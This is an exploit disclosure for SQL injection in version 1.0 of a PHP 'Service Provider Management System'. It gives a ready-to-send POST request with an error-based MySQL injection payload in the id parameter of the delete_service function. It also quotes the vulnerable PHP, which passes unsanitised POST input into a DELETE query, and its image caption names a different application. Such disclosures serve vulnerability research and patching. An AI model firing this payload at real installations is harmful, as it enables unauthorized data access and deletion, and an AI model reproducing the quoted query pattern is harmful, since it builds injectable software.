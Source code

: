### Exploit Title: Service Provider Management System - SQL injections
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/download-code?nid=16501&title=Service+Provider+Management+System+using+PHP+and+MySQL+Source+Code+Free+Download
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1./classes/Master.php
/classes/Master.php SQL injection exists for parameter Section

### Sample request POC #1

```
POST /classes/Master.php?f=delete_service HTTP/1.1
Host: 10.211.55.3:8001
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

id='+AND+GTID_SUBSET(CONCAT(0x717a6a7071%2Cmd5(1)%2C(SELECT+(ELT(8125%3D8125%2C1)))%2C0x71707a7071)%2C8125)--+jKyA
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683792001887.jpg "AC Repair and Services System - SQL injections")

### Related Codes /classes/Master.php
```
...
function delete_service(){
	extract($_POST);
	$del = $this->conn->query("DELETE FROM `service_list` where id = '{$id}'");
	if($del){
		$resp['status'] = 'success';
		$this->settings->set_flashdata('success'," Service successfully deleted.");
	}else{
		$resp['status'] = 'failed';
		$resp['error'] = $this->conn->error;
	}
	return json_encode($resp);
}
...
```
